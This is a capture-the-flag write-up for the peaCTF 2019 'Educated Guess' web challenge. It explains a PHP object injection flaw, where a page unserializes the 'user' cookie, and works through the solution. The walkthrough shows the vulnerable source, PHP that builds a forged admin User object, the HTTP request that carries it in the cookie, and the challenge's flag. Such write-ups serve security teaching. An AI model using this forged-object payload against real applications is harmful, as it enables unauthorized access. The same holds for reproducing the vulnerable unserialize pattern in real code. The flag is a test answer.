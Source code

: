 # Educated Guess

## Description

There is a secured system running at http://shell1.2019.peactf.com:10085/query.php. You have obtained the source code.

## Source Code

```php
<!doctype html>
<html>
<head>
    <title>Secured System</title>
</head>
<body>
<?php

// https://www.php-fig.org/psr/psr-4/

function autoload($class)
{
    include $class . '.class.php';
}

spl_autoload_register('autoload');

if (!empty($_COOKIE['user'])) {
    $user = unserialize($_COOKIE['user']);

    if ($user->is_admin()) {
        echo file_get_contents('../flag');
    } else {
        http_response_code(403);
        echo "Permission Denied";
    }
} else {
    echo "Not logged in.";
}
?>
</body>
</html>
```

## Observations

First, I navigated to the webpage at the URL that they gave me and I saw this message:

![not logged in](not_logged_in.png)

Looking at the source code, one line immediately stands out:

```php
$user = unserialize($_COOKIE['user']);
```

Untrusted input from the client is being directly unserialized and then later used to determine whether to show the flag.

Looking at the [PHP manual for unserialize](https://php.net/manual/en/function.unserialize.php), I see this warning:

```
Do not pass untrusted user input to unserialize() regardless of the options value of allowed_classes. Unserialization can result in code being loaded and executed due to object instantiation and autoloading, and a malicious user may be able to exploit this.
```

This looks like an object injection vulnerability, where the attacker can pass arbitrary serialized strings into a vulnerable `unserialize` call to load objects into the application scope. You can read more about PHP object injection [on the OWASP website](https://www.owasp.org/index.php/PHP_Object_Injection).

Because `unserialize` is being called on client input, we can provide our own serialized object through the cookie that the source code is reading.

## Solution

I wrote some PHP to get a serialized object string, guessing the shape of the class already loaded into the application scope. I guessed that the class name was `User` and the instance variable to determine admin status was named `admin`.

```php
class User {
    public $admin = True;
}

echo serialize(new User());
```

this outputs

```
O:4:"User":1:{s:5:"admin";b:1;}
```

I sent this request to the site, passing my serialized object string as the `user` cookie:

```
GET /query.php HTTP/1.1
Host: shell1.2019.peactf.com:10085
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: user=O:4:"User":1:{s:5:"admin"%3bb:1%3b}
```

which yielded this response

```
HTTP/1.1 200 OK
Content-type: text/html; charset=UTF-8

<!doctype html>
<html>
<head>
    <title>Secured System</title>
</head>
<body>
flag{peactf_follow_conventions_55816deeda186e9b9fa71b0f86039a54}</body>
</html>
```

Our flag was

```
flag{peactf_follow_conventions_55816deeda186e9b9fa71b0f86039a54}
```
